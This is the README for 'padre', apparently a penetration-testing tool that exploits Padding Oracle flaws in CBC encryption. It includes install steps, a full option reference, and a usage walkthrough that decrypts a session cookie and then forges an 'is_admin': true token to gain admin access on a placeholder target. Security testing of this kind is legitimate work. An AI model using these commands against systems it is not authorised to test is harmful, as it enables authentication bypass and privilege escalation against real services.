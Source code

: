 ![](https://img.shields.io/github/go-mod/go-version/glebarez/padre) ![Publish release](https://github.com/glebarez/padre/workflows/Publish%20release/badge.svg) ![](https://img.shields.io/codecov/c/github/glebarez/padre/master)

# padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo

![demo](assets/demo.gif )

## Installation/Update
- Fastest way is to download pre-compiled binary for your OS from [Latest release](https://github.com/glebarez/padre/releases/latest)

- Alternatively, if you have Go installed, build from source:
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Full usage options
```
Usage: padre [OPTIONS] [INPUT]

INPUT: 
	In decrypt mode: encrypted data
	In encrypt mode: the plaintext to be encrypted
	If not passed, will read from STDIN

	NOTE: binary data is always encoded in HTTP. Tweak encoding rules if needed (see options: -e, -r)

OPTIONS:

-u *required*
	target URL, use $ character to define token placeholder (if present in URL)

-enc
	Encrypt mode

-err
	Regex pattern, HTTP response bodies will be matched against this to detect padding oracle. Omit to perform automatic fingerprinting

-e
	Encoding to apply to binary data. Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r
	Additional replacements to apply after encoding binary data. Use odd-length strings, consiting of pairs of characters <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~', then use -r "/!+-=~"

-cookie
	Cookie value to be set in HTTP requests. Use $ character to mark token placeholder.

-post
	String data to perform POST requests. Use $ character to mark token placeholder. 

-ct
	Content-Type for POST requests. If not specified, Content-Type will be determined automatically.
	
-b
	Block length used in cipher (use 16 for AES). Omit to perform automatic detection. Supported values:
		8
		16 *default*
		32

-p
	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy
	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
```

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster